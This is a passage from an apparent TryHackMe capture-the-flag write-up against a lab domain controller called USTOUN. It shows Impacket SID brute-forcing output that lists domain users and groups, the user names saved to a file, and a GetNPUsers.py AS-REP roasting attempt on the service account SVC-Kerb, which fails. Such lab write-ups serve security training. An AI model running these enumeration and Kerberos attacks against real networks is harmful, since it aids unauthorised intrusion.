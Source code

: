Password:
[*] Brute forcing SIDs at 10.10.83.170
[*] StringBinding ncacn_np:10.10.83.170[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1901093607-1666369868-1126869414
498: DC01\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: DC01\Administrator (SidTypeUser)
501: DC01\Guest (SidTypeUser)
502: DC01\krbtgt (SidTypeUser)
512: DC01\Domain Admins (SidTypeGroup)
513: DC01\Domain Users (SidTypeGroup)
514: DC01\Domain Guests (SidTypeGroup)
515: DC01\Domain Computers (SidTypeGroup)
516: DC01\Domain Controllers (SidTypeGroup)
517: DC01\Cert Publishers (SidTypeAlias)
518: DC01\Schema Admins (SidTypeGroup)
519: DC01\Enterprise Admins (SidTypeGroup)
520: DC01\Group Policy Creator Owners (SidTypeGroup)
521: DC01\Read-only Domain Controllers (SidTypeGroup)
522: DC01\Cloneable Domain Controllers (SidTypeGroup)
525: DC01\Protected Users (SidTypeGroup)
526: DC01\Key Admins (SidTypeGroup)
527: DC01\Enterprise Key Admins (SidTypeGroup)
553: DC01\RAS and IAS Servers (SidTypeAlias)
571: DC01\Allowed RODC Password Replication Group (SidTypeAlias)
572: DC01\Denied RODC Password Replication Group (SidTypeAlias)
1000: DC01\DC$ (SidTypeUser)
1101: DC01\DnsAdmins (SidTypeAlias)
1102: DC01\DnsUpdateProxy (SidTypeGroup)
1112: DC01\SVC-Kerb (SidTypeUser)
1114: DC01\SQLServer2005SQLBrowserUser$DC (SidTypeAlias)
```

We only need the `SidTypeUser` save in a file.

```
Administrator
Guest
krbtgt
DC$
SVC-Kerb
```

We have a service account user `SVC-Kerb` cool let try to query for a ticket maybe it has pre-authentication disabled.

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/USTOUN]
└─$ GetNPUsers.py -dc-ip ustoun.local ustoun.local/SVC-Kerb
Impacket v0.9.24.dev1+20210629.123513.142cacb6 - Copyright 2021 SecureAuth Corporation

Password:
[*] Cannot authenticate SVC-Kerb, getting its TGT
[-] User SVC-Kerb doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                                                                                                                                       